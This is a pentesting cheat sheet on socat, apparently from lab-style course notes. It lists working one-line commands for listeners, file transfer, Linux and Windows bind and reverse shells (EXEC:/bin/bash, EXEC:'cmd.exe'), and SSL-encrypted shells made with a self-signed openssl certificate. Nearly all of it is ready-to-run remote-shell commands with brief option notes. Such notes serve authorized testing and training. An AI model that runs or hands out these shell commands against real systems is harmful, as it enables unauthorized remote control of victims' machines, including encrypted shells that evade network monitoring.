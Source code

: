 # Socat

## Binding and Listening

```text
socat - TCP4:10.11.1.8:80
```

* The hyphen `-` character is used to transfer data between stdio and the remote host \(allowing our keyboard interaction with the shell\).
* The protocol, options, and port number are colon-delimited.

```text
sudo socat TCP4-LISTEN:443 STDOUT
```

## File Transfer

```text
sudo socat TCP4-LISTEN:443,fork file:reverse_shell.pem
```

* the `TCP4-LISTEN` option specifies an IPv4 listener
* `fork` creates a child process once a connection is made to the listener, which allows multiple connections
* `file`: specifies the name of a file to be transferred:

```text
socat TCP4:10.11.0.4:443 file:reverse_shell.pem,create
```

* `file`: specifies the local file name to save
* `create` specifies that a new file will be created

## Bind Shell

{% code title="Linux Bind Shell" %}
```text
sudo socat -d -d TCP4-LISTEN:443 EXEC:/bin/bash
```
{% endcode %}

{% code title="Windows Bind Shell" %}
```text
socat TCP4-LISTEN:443 EXEC:'cmd.exe',pipes
```
{% endcode %}

```text
socat - TCP4:192.168.119.189:443
```

## Reverse Shell

```text
socat -d -d TCP4-LISTEN:443 STDOUT
```

* `-d -d` option to increase verbosity \(showing fatal, error, warning, and notice messages\)
* `STDOUT` to connect standard output \(STDOUT\) to the TCP socket

{% code title="Windows Reverse Shell" %}
```text
socat TCP4:192.168.119.189:443 EXEC:'cmd.exe',pipes
```
{% endcode %}

{% code title="Linux Reverse Shell" %}
```text
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```
{% endcode %}

* `EXEC` option \(similar to the Netcat -e option\), which will execute the given program once a remote connection is established

## Encrypted Shells

Firstly, create a self-signed certificate using `openssl`

{% page-ref page="../linux-things/linux-useful-utilities.md" %}

```text
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

### Encrypted Bind Shell

{% code title="Encrypted Linux Bind Shell" %}
```text
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```
{% endcode %}

{% code title="Encrypted Windows Bind Shell" %}
```text
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:'cmd.exe',pipes
```
{% endcode %}

* `OPENSSL-LISTEN` option to create the listener on port 443 with `OPENSSL`
* `cert=bind_shell.pem` to specify our certificate file
* `verify=0` to disable SSL verification
* `fork` to spawn a child process once a connection is made to the listener:

```text
socat - OPENSSL:10.11.0.4:443,verify=0
```

* `-` to transfer data between STDIO and the remote host
* `OPENSSL` to establish a remote SSL connection to  listener on 10.11.0.4:443
* `verify=0` to disable SSL certificate verification

### Encrypted Reverse Shell

```text
socat -d -d OPENSSL-LISTEN:443,cert=reverse_shell.pem,verify=0 STDOUT
```

{% code title="Encrypted Windows Reverse Shell" %}
```text
socat OPENSSL:192.168.119.189:443,verify=0 EXEC:'cmd.exe',pipes
```
{% endcode %}

{% code title="Encrypted Linux Reverse Shell" %}
```text
socat OPENSSL:192.168.189.10:443,verify=0,fork EXEC:/bin/bash
```
{% endcode %}



